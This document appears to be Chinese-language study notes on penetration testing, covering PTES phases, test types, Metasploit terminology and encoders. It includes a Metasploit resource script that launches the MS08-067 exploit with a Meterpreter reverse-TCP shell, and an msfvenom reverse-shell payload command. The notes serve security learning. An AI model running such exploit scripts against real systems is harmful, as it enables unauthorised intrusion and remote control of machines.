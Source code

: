 # Penetration Testig 渗透测试

PTTES: Penetration Testing Execution Standard
## PTES渗透测试阶段
1. 前期交互阶段
2. 情报搜集阶段
3. 威胁建模阶段
4. 漏洞分析阶段
5. 渗透攻击阶段
6. 后渗透攻击阶段
7. 报告阶段

渗透测试类型: 
白盒测试; 拥有所有内部知识,可以在不需要害怕被阻断的情况下任意的实施攻击.
黑盒测试; 获取目标系统访问权代价最小的攻击路径,并保证不被检测到.
灰盒测试; 灰盒测试部分了解内部知识,可以和目标用户进行沟通。

漏洞扫描器是用来找出指定系统或应用中的安全漏洞的自动化工具.渗透测试的美妙之处在于它不是一个千篇一律的自动化过程,成功地攻击系统通常需要你掌握更多的知识和技能.

### 专业术语
渗透攻击(Exploit); 

攻击载荷(Payload);

shellcode是在渗透攻击时作为攻击载荷运行的一组机器指令.通常以汇编语言编写,目标系统执行了shellcode这一组指令后,才会提供一个命令行shell或Meterpreter shell,这也是shellcode名称的由来.

exploit module 渗透攻击模块和auxiliary module 辅助模块.

MSF终端(msfconsole) 可以用它发起一次渗透攻击,装载辅助模块,实施查点,创建监听器,或者对整个网络进行自动化渗透攻击.

POC: Proof of Concept 渗透攻击的概念验证代码

MSF编码器
由MSF攻击载荷生成器产生的shellcode是完全可运行的,但是其中包含了一些null空字符,在一些程序进行解析时,这些空字符串会被认为是字符串的结束,从而使得代码在完整执行之前被截断而终止运行,简单地来说\x00和\xff字符会破坏你的攻击载荷.

> 编码器
x86/shikata_ga_nai编码器,在Metasploit中唯一一个拥有Excellent等级的编码器,而这种等级是基于一个模块的可靠性和稳定性来评价的.
查看编码器及相关等级使用: msfvenom -l encoders.

> 了解汇编代码含义
Nasm_shell.rb在对应给定的汇编命令找出它的opcode操作码,可以使用
cd /usr/share/metasploit-framework/tools/exploit
./nasm_shell.rb
nasm > jmp esp



> 自动化运行MS08-067脚本 /home/scripts/reverse_tcp.rc
```rc
use exploit /windows/smb/ms08_067_netapi
set RHOST [IP]
set payload windows/meterpreter/reverse_tcp
set LHOST [IP]
run
# 执行
./msfconsole -r /home/scripts/reverse_tcp.rc
```

对某个攻击载荷模块感兴趣却不清楚它的配置选项时,采用payload-options就可以列出所必须和可选二点选项列表
msfvenom -p windows/shell_reverse_tcp --payload-options

参考:

Metasploit渗透测试指南.pdf